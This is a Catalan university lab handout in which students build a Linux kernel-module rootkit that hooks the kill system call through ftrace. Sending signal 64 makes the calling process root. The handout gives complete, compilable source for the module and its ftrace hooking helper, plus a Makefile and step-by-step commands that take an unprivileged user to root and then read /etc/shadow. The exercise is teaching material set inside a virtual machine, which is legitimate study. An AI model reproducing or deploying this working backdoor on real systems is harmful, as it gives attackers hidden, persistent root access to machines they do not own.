

Laboratori 10: Escalada de privilegis
Requeriments previs
- Màquina virtual amb Debian.
- Realitzar una snapshot de la màquina virtual abans de començar el laboratori.
- Programari necessari:
Eines de construcció de programari:
build-essentialCapçaleres del kernel:
linux-headers-$(uname -r)Altres eines:
libncurses-dev,bison,flex,kmodInstal·lació de les eines necessàries:
su -c "apt update && apt upgrade -y" su -c "apt install build-essential linux-headers-$(uname -r) libncurses-dev bison flex kmod -y"
Objectiu
L’objectiu d’aquest laboratori és crear un rootkit que intercepti una crida a sistema específica (sys_kill) i permeti una escalada de privilegis. Això es fa mitjançant la implementació d’una funció hook que canvia el comportament de la crida kill quan s’utilitza amb un cert senyal (utilitzarem l’enter 64 ja que és un enter lliure i no es fa servir per cap senyal), permetent l’escalada de privilegis. Aquest exemple s’ha extret de (TheXcellerator).
Procediment

- Crida a sistema en mode usuari: Les crides a sistema són operacions crítiques que es fan des del mode usuari. La instrucció SYSCALL permet invocar una crida a sistema que serà gestionada pel nucli.
- Gestor específic pren el control: Quan es realitza una crida a sistema des de l’espai d’usuari, el nucli del sistema operatiu pren el control. Aquest es delega a una funció de baix nivell implementada, com ara do_syscall_64(). Aquesta funció accedeix a la taula de controladors de crides al sistema (sys_call_table) i crida un controlador específic basat en el número de crida a sistema.
- **Ftrace i __fentry()**: Al principi de cada funció dins del nucli, s’ubica una crida especial *__fentry()*, que fa part del sistema de traçabilitat Ftrace. Si aquesta funció no ha de ser traçada, se substitueix amb una instrucció nop.
- Ftrace crida al nostre callback: Quan s’executa una crida a sistema traçada per Ftrace, el sistema crida al nostre callback específic que hem enganxat (hooked). En aquest callback, podem modificar el valor del registre ip, que apunta a la següent funció que ha d’executar-se.
- Restauració de l’estat dels registres: Ftrace es responsabilitza de restaurar l’estat original dels registres abans de passar el control al controlador original de la crida a sistema. El nostre hook canvia el registre ip per dirigir l’execució a la nostra funció hook, no a la funció original.
- Canvi de control a la nostra funció hook: Aquest canvi de registre ip dirigeix l’execució a la nostra funció hook, però el processador i la memòria romanen en el mateix estat. La nostra funció hook rep els arguments del controlador original.
- Execució de la funció original: La funció hook crida la funció original de la crida a sistema, obtenint així el control de la crida a sistema.
- Processament del hook: Després d’analitzar el context i els arguments de la crida al sistema, el nostre hook realitza les accions desitjades.
- Callback sense accions: En la segona crida a la funció original de la crida a sistema, que passa a través de Ftrace, el callback no fa cap acció, permetent que la funció original s’executi sense interrupcions.
- Tornada a la funció original: La funció original de la crida a sistema s’executa sense interferències, ja que ha estat cridada no pel nucli des de do_syscall_64(), sinó per la nostra funció hook.
- Retorn al gestor de crides del sistema: Després que la funció original ha acabat, el control retorna al gestor de crides del sistema (sys_xxxx()), i de nou a la nostra funció hook (fh_sys_execve()).
- Retorn al mode d’usuari: Finalment, el nucli passa el control al procés de l’usuari, completant el cicle d’execució d’una crida a sistema amb l’ús d’un hook.
Implementació
L’implementació es basa en modificar la funció de crida a sistema kill per interceptar la crida amb un senyal específic (64 en aquest cas) i, si es detecta aquest senyal, canviar les credencials de l’usuari actual a les credencials d’administrador (root), permetent així l’escalada de privilegis.
Crearem una funció que modifiqui les credencials de l’usuari actual per les credencials d’administrador (root). Aquesta funció utilitza la structura cred per modificar les credencials de l’usuari. Aquesta estructura es troba a include/linux/cred.h. prepare_creds() crea una nova estructura de credencials i l’assigna a la variable root. Per representar l’usuari root necessitem editar els valors uid,gid,egid,sgid,fsgid al valors 0 que en sistemes linux es reserva per l’usuari root. Finalment, commit_creds() aplica les credencials a l’usuari actual.
void set_root(void) { struct cred *root; root = prepare_creds(); if (root == NULL) return; root->uid.val = root->gid.val = 0; root->euid.val = root->egid.val = 0; root->suid.val = root->sgid.val = 0; root->fsuid.val = root->fsgid.val = 0; commit_creds(root); }Un cop implementada la funció per esdevenir root, necessitem implementar un hook (rutina de tractament de la senyal 64). En aquest cas, el nostre hook interceptarà la crida a sistema kill i, si el senyal és 64, cridarà a la funció set_root() per esdevenir root. Per obtenir el nº de senyal utilitzarem la variable si de la structura pt_regs. Aquesta estructura conté informació sobre els registres del processador en el moment de la crida a sistema i ens permet obtenir informació com el nº de senyal, el PID, etc.
asmlinkage int hook_kill( const struct pt_regs *regs) { void set_root(void); int sig = regs->si; if (sig == 64) { printk(KERN_INFO "rootkit: giving root...\n"); set_root(); return 0; } return orig_kill(regs); }Implementarem un mòdul del kernel que utiltizi aquestes funcions i ens permeti instal·lar/desintal·lar el nostre rootkit al sistema.
#include <linux/init.h> #include <linux/module.h> #include <linux/kernel.h> #include <linux/syscalls.h> #include <linux/kallsyms.h> #include <linux/version.h> #include "ftrace_helper.h" MODULE_LICENSE("GPL"); MODULE_AUTHOR("Jordi Mateo"); MODULE_DESCRIPTION(""); MODULE_VERSION("0.01"); /* After Kernel 4.17.0, the way that syscalls are handled changed * to use the pt_regs struct instead of the more familiar function * prototype declaration. We have to check for this, and set a * variable for later on */ #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0)) #define PTREGS_SYSCALL_STUBS 1 #endif /* We now have to check for the PTREGS_SYSCALL_STUBS flag and * declare the orig_kill and hook_kill functions differently * depending on the kernel version. This is the largest barrier to * getting the rootkit to work on earlier kernel versions. The * more modern way is to use the pt_regs struct. */ #ifdef PTREGS_SYSCALL_STUBS static asmlinkage long (*orig_kill)(const struct pt_regs *); /* We can only modify our own privileges, and not that of another * process. Just have to wait for signal 64 (normally unused) * and then call the set_root() function. */ asmlinkage int hook_kill(const struct pt_regs *regs) { void set_root(void); // pid_t pid = regs->di; int sig = regs->si; if ( sig == 64 ) { printk(KERN_INFO "rootkit: giving root...\n"); set_root(); return 0; } return orig_kill(regs); } #else /* This is the old way of declaring a syscall hook */ static asmlinkage long (*orig_kill)(pid_t pid, int sig); static asmlinkage int hook_kill(pid_t pid, int sig) { void set_root(void); if ( sig == 64 ) { printk(KERN_INFO "rootkit: giving root...\n"); set_root(); return 0; } return orig_kill(pid, sig); } #endif /* Whatever calls this function will have it's creds struct replaced * with root's */ void set_root(void) { /* prepare_creds returns the current credentials of the process */ struct cred *root; root = prepare_creds(); if (root == NULL) return; /* Run through and set all the various *id's to 0 (root) */ root->uid.val = root->gid.val = 0; root->euid.val = root->egid.val = 0; root->suid.val = root->sgid.val = 0; root->fsuid.val = root->fsgid.val = 0; /* Set the cred struct that we've modified to that of the calling process */ commit_creds(root); } /* Declare the struct that ftrace needs to hook the syscall */ static struct ftrace_hook hooks[] = { HOOK("__x64_sys_kill", hook_kill, &orig_kill), }; /* Module initialization function */ static int __init rootkit_init(void) { /* Hook the syscall and print to the kernel buffer */ int err; err = fh_install_hooks(hooks, ARRAY_SIZE(hooks)); if(err) return err; printk(KERN_INFO "rootkit: Loaded >:-)\n"); return 0; } static void __exit rootkit_exit(void) { /* Unhook and restore the syscall and print to the kernel buffer */ fh_remove_hooks(hooks, ARRAY_SIZE(hooks)); printk(KERN_INFO "rootkit: Unloaded :-(\n"); } module_init(rootkit_init); module_exit(rootkit_exit);Finalment implementar el fitxer ftrace_helper.h que conté les funcions auxiliars per a la implementació del rootkit. La macro HOOK obtindrà l’adreça original on tenim implementada la funcionalitat real de la crida a sistema i la modificarà (hook) per tenir en aquella adreça la nostra funcionalitat maliciosa.
/* * Helper library for ftrace hooking kernel functions * Author: Harvey Phillips (xcellerator@gmx.com) * License: GPL * */ #include <linux/ftrace.h> #include <linux/linkage.h> #include <linux/slab.h> #include <linux/uaccess.h> #include <linux/version.h> #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0)) #define PTREGS_SYSCALL_STUBS 1 #endif /* * On Linux kernels 5.7+, kallsyms_lookup_name() is no longer exported, * so we have to use kprobes to get the address. * Full credit to @f0lg0 for the idea. */ #if LINUX_VERSION_CODE >= KERNEL_VERSION(5,7,0) #define KPROBE_LOOKUP 1 #include <linux/kprobes.h> static struct kprobe kp = { .symbol_name = "kallsyms_lookup_name" }; #endif #define HOOK(_name, _hook, _orig) \ { \ .name = (_name), \ .function = (_hook), \ .original = (_orig), \ } /* We need to prevent recursive loops when hooking, otherwise the kernel will * panic and hang. The options are to either detect recursion by looking at * the function return address, or by jumping over the ftrace call. We use the * first option, by setting USE_FENTRY_OFFSET = 0, but could use the other by * setting it to 1. (Oridinarily ftrace provides it's own protections against * recursion, but it relies on saving return registers in $rip. We will likely * need the use of the $rip register in our hook, so we have to disable this * protection and implement our own). * */ #define USE_FENTRY_OFFSET 0 #if !USE_FENTRY_OFFSET #pragma GCC optimize("-fno-optimize-sibling-calls") #endif /* We pack all the information we need (name, hooking function, original function) * into this struct. This makes is easier for setting up the hook and just passing * the entire struct off to fh_install_hook() later on. * */ struct ftrace_hook { const char *name; void *function; void *original; unsigned long address; struct ftrace_ops ops; }; /* Ftrace needs to know the address of the original function that we * are going to hook. As before, we just use kallsyms_lookup_name() * to find the address in kernel memory. * */ static int fh_resolve_hook_address(struct ftrace_hook *hook) { #ifdef KPROBE_LOOKUP typedef unsigned long (*kallsyms_lookup_name_t)(const char *name); kallsyms_lookup_name_t kallsyms_lookup_name; register_kprobe(&kp); kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr; unregister_kprobe(&kp); #endif hook->address = kallsyms_lookup_name(hook->name); if (!hook->address) { printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name); return -ENOENT; } #if USE_FENTRY_OFFSET *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE; #else *((unsigned long*) hook->original) = hook->address; #endif return 0; } /* See comment below within fh_install_hook() */ static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs) { struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops); #if USE_FENTRY_OFFSET regs->ip = (unsigned long) hook->function; #else if(!within_module(parent_ip, THIS_MODULE)) regs->ip = (unsigned long) hook->function; #endif } /* Assuming we've already set hook->name, hook->function and hook->original, we * can go ahead and install the hook with ftrace. This is done by setting the * ops field of hook (see the comment below for more details), and then using * the built-in ftrace_set_filter_ip() and register_ftrace_function() functions * provided by ftrace.h * */ int fh_install_hook(struct ftrace_hook *hook) { int err; err = fh_resolve_hook_address(hook); if(err) return err; /* For many of function hooks (especially non-trivial ones), the $rip * register gets modified, so we have to alert ftrace to this fact. This * is the reason for the SAVE_REGS and IP_MODIFY flags. However, we also * need to OR the RECURSION_SAFE flag (effectively turning if OFF) because * the built-in anti-recursion guard provided by ftrace is useless if * we're modifying $rip. This is why we have to implement our own checks * (see USE_FENTRY_OFFSET). */ hook->ops.func = (ftrace_func_t)fh_ftrace_thunk; hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS | FTRACE_OPS_FL_RECURSION | FTRACE_OPS_FL_IPMODIFY; err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0); if(err) { printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err); return err; } err = register_ftrace_function(&hook->ops); if(err) { printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err); return err; } return 0; } /* Disabling our function hook is just a simple matter of calling the built-in * unregister_ftrace_function() and ftrace_set_filter_ip() functions (note the * opposite order to that in fh_install_hook()). * */ void fh_remove_hook(struct ftrace_hook *hook) { int err; err = unregister_ftrace_function(&hook->ops); if(err) { printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err); } err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0); if(err) { printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err); } } /* To make it easier to hook multiple functions in one module, this provides * a simple loop over an array of ftrace_hook struct * */ int fh_install_hooks(struct ftrace_hook *hooks, size_t count) { int err; size_t i; for (i = 0 ; i < count ; i++) { err = fh_install_hook(&hooks[i]); if(err) goto error; } return 0; error: while (i != 0) { fh_remove_hook(&hooks[--i]); } return err; } void fh_remove_hooks(struct ftrace_hook *hooks, size_t count) { size_t i; for (i = 0 ; i < count ; i++) fh_remove_hook(&hooks[i]); }Aquesta implementació es basa en la implementació de ftrace. Ftrace és una eina de depuració que permet monitoritzar les crides a sistema. Per a més informació sobre ftrace podeu consultar aquest enllaç. Registra la informació relacionada amb les crides a sistema i ens permet definir callbacks, entre altres funcions. Ens permet intervenir quan el registre ’‘’rip’’’contingui una adreça de memòria. Si establim que aquesta adreça és on comença la funcionalitat d’una crida a sistema, podem modificar perquè s’executi una altra funcionalitat.
struct ftrace_hook { const char *name; void *function; void *original; unsigned long address; struct ftrace_ops ops; };La part més important de hook és la callback. Aquesta funció està assignant al registre IP (següent instrucció a executar pel processador) a l’adreça hook->function.
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs) { struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops); #if USE_FENTRY_OFFSET regs->ip = (unsigned long) hook->function; #else if(!within_module(parent_ip, THIS_MODULE)) regs->ip = (unsigned long) hook->function; #endif }notrace és un tractament especial per marcar funcions prohibides per a fer seguiment amb ptrace. Es poden marcar funcions que s’utilitzen en el procés de seguiment. Evitem que el sistema es pengi si cridem de forma errònia a la vostra callback.
També és molt important la funció fh_resolve_hook_address(). Aquesta funció utilitza
kallsyms_lookup_name()(linux/kallsyms.h>) per cercar l’adreça de la crida a sistema real. Aquest valor s’emprarà tant per obtenir el codi original i guardar-lo en una altra adreça com per sobreescriu amb el nostre rootkit. Es guarda en l’atribut address.static int fh_resolve_hook_address(struct ftrace_hook *hook) { #ifdef KPROBE_LOOKUP typedef unsigned long (*kallsyms_lookup_name_t)(const char *name); kallsyms_lookup_name_t kallsyms_lookup_name; register_kprobe(&kp); kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr; unregister_kprobe(&kp); #endif hook->address = kallsyms_lookup_name(hook->name); if (!hook->address) { printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name); return -ENOENT; } }OBSERVACIÓ: Quan intentem fer hook, es poden donar bucles recursius. Per evitar-ho tenim diferents opcions. Podem intenta detectar la recursivitat mirant l’adreça de retorn de la funció o bé podem saltar a una adreça per sobre la crida ftrace.
#if USE_FENTRY_OFFSET *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE; #else *((unsigned long*) hook->original) = hook->address; #endifFinalment, no ens podem oblidar de comentar els flags que s’utilitzen per definir la callback:
- FTRACE_OPS_FL_SAVE_REGS: Flag que permet passar pt_regs de la crida original al nostre hook.
- FTRACE_OPS_FL_IP_MODIFY: Indiquem a ftrace que modificarem el registre IP.
- FTRACE_OPS_FL_RECURSION: Desactivar la protecció per defecte de ftrace.
hook->ops.func = (ftrace_func_t)fh_ftrace_thunk; hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS | FTRACE_OPS_FL_RECURSION | FTRACE_OPS_FL_IPMODIFY;Bàsicament aquestes funcions ens permet instal·lar/desinstal·lar hooks a crides a sistema.
- ftrace_set_filter_ip() diu a ftrace que només executi la nostra callback quan rip és l’adreça de sys_open (desada a hook->address).
- register_ftrace_function(). Asegura que tot estigui al seu lloc i l’hook preparat.
err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0); if(err) { printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err); return err; } err = register_ftrace_function(&hook->ops); if(err) { printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err); return err; }- Desfem el procés anterior:
void fh_remove_hook(struct ftrace_hook *hook) { int err; err = unregister_ftrace_function(&hook->ops); if(err) { printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err); } err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0); if(err) { printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err); } }Preparem un Makefile per compilar el nostre mòdul del kernel:
obj-m += rootkit.o all: make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules clean: make -C /lib/modules/$(shell uname -r)/build M=$(PWD) cleanCompilem el nostre mòdul del kernel:
makeInstal·lem el nostre mòdul del kernel:
insmod rootkit.koComprovem que el nostre mòdul s’ha instal·lat correctament:
lsmod | grep rootkitComprovem que el nostre rootkit funciona correctament:
dmesg | tailCrearem un usuari al sistema sense privilegis d’administrador:
useradd testEns connectem al sistema amb aquest usuari:
su - testObservem els valors que identifiquen l’usuari actual:
idIntenteu revisar un fitxer que només pot ser llegit pel root (/etc/shadow):
cat /etc/shadowActivem el nostre backdoor:
sleep 120 &Obtenim el id del procés sleep:
ps | grep sleepEnviem la senyal:
kill -64 20005Comprovem que ara tenim privilegis d’administrador:
idComprovem que ara podem llegir el fitxer /etc/shadow:
cat /etc/shadowDesinstal·lem el nostre mòdul del kernel:
rmmod rootkit